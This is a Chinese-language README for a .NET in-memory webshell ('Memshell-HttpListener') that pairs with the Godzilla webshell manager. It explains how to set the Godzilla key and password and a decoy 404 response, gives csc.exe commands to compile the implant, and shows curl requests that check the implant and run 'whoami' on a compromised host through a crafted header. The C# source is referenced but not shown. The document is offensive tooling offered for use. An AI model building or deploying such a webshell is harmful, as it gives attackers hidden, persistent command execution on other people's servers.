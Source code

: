 # Memshell-HttpListener
## 说明

代码中需要修改的点
```
input_key  为Godzilla 里面的key
pass       为Godzilla 里面的pass
nodata     为自定义返回404的代码的base64字符串
```

另外如果需要报错log，可将log部分注释去掉查看。


## 编译
**exe**
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.Web.dll,System.dll,Microsoft.CSharp.dll,System.Core.dll memshell.cs
```
**dll**
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.Web.dll,System.dll,Microsoft.CSharp.dll,System.Core.dll /t:library memshell.cs
```

## 使用
使用方式可参考：[DotNet内存马-HttpListener](https://mp.weixin.qq.com/s/zsPPkhCZ8mhiFZ8sAohw6w)

**验证：**
```
curl http://10.211.55.4/favicon.ico -H "Type: print"
```
![](../assets/16384159078389.jpg)

**命令执行：**
```
curl http://10.211.55.4/favicon.ico -H "Type: cmd"  -d "pass=whoami"
```
![](../assets/16384159397039.jpg)

**Godzilla**
添加对应HTTP头即可，
AES_RAW

![](../assets/16384242085416.jpg)

AES_BASE64

![](../assets/16384242790653.jpg)




